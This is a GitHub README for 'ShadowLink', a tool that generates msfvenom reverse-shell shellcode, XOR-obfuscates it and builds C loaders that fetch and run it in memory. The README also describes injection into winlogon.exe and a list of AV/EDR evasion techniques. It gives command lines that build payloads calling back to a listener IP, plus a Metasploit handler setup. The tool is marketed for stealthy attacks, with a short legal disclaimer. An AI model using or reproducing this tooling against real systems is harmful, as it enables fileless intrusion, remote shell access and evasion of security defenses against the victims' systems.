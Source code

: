 # 🕶️ ShadowLink — Invisible Payload Delivery Framework

> **Where access meets invisibility.**

ShadowLink is a **next-generation, automated framework** for generating, obfuscating, and delivering shellcode through in-memory loaders. Designed for red team operations, penetration testing, and offensive research, ShadowLink empowers attackers to deploy stealthy, fileless payloads that execute directly in memory — bypassing traditional AV/EDR detection mechanisms.

With a modular design and seamless automation, ShadowLink turns complex exploitation workflows into **one-liner commands**, making payload delivery faster, smarter, and more evasive than ever.

✨ *Crafted for control. Built for stealth.*

---

## 🔥 Key Features

✅ **Automated Shellcode Generation**  
→ Uses `msfvenom` to generate raw payloads for Linux & Windows.

✅ **XOR Obfuscation (Optional)**  
→ Encode shellcode with a custom XOR key to evade static detection.

✅ **In-Memory Execution**  
→ Payloads are downloaded and executed directly in memory — no disk writes.

✅ **Dual-Platform Support**  
→ Generate native loaders for **Linux** (via `mmap`) and **Windows** (via `VirtualAlloc` + `NtCreateThreadEx`).

✅ **Remote Process Injection (Windows)**  
→ Inject shellcode into remote processes like `winlogon.exe` using low-level NTAPI calls.

✅ **Customizable C Loaders**  
→ Fully templated C code with placeholders for URL, User-Agent, timeout, and size limits.

✅ **No Dependencies (Runtime)**  
→ Final binaries are statically linked and require no external libraries on target.

✅ **Easy Integration with Metasploit**  
→ Works seamlessly with `exploit/multi/handler`.

---

## 🛠️ Installation

```bash
git clone https://github.com/your-username/shadowlink.git
cd shadowlink
chmod +x *.sh
```

## 🛠️ Prerequisites

```bash
# Debian/Kali/Ubuntu
sudo apt update
sudo apt install \
    gcc \
    mingw-w64 \
    curl \
    libcurl4-openssl-dev \
    xxd \
    python3 \
    metasploit-framework \
    make
```
## 🚀 Quick Start
1. Generate a Linux Payload (No XOR)

```bash
./main.sh linux 10.10.14.10 5555
```
2. Generate a Windows Payload (With XOR)

```bash
./main.sh windows 10.10.14.10 4444 xor 0x42
```
### 🚀 This will:

- Generate a reverse shell payload.
- Apply XOR encoding (if enabled).
- Host the payload on your server (you can use python3 -m http.server 80).
- Build a custom C loader that downloads and executes the payload in memory.
- Output a ready-to-use binary: loader_linux or loader_windows.exe.

3. Set Up Your Listener

```bash
msfconsole -q -x "
    use exploit/multi/handler;
    set PAYLOAD [linux|windows]/x64/shell_reverse_tcp;
    set LHOST 0.0.0.0;
    set LPORT 5555;
    run
"
```

4. Deliver & Execute
Transfer the binary to the target and run it. The loader will:

- Download the shellcode from your server.
- Decode it (if XOR’d).
- Allocate executable memory.
- Execute the payload — all in memory.

## 📂 Project Structure

```text
shadowlink/
├── main.sh                     # Main orchestrator (entry point)
├── gen_txt.sh                  # Generates shellcode + XOR encoding
├── gen_xor.sh                  # Applies XOR encoding to binary
├── gen_loader.sh               # Generates basic C loader (no XOR)
├── gen_loader2.sh              # Generates XOR-aware C loader
├── loader_windows_infect.c     # Advanced: Injects into remote process (e.g. winlogon.exe)
├── Makefile                    # Cross-compilation rules
└── README.md
```

## 🧼 Evasion Techniques

- ✅ No Disk Artifacts: Shellcode fetched at runtime.
- ✅ XOR Encoding: Breaks static signatures.
- ✅ Custom User-Agent & Timeout: Mimics legitimate traffic.
- ✅ In-Memory Execution: No PE file parsing.
- ✅ NTAPI Direct Calls: Evades API hooking on Windows.


## ⚠️ Legal Disclaimer
This tool is for educational and authorized security testing only.
I do not support or condone unauthorized hacking.
Use responsibly and only on systems you have explicit permission to test.

The author assumes no liability for misuse.

## 🤝 Want to Improve ShadowLink?
Contributions are highly welcome! 

## 📜 License GPLv3

## 🌟 Acknowledgments
- Inspired by fileless malware techniques and red team tradecraft.
- Powered by msfvenom, mingw-w64, and the eternal art of offensive engineering.


| ShadowLink — Because the best connections are the ones no one sees.
| Made with ❤️ and a little bit of darkness. 



![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
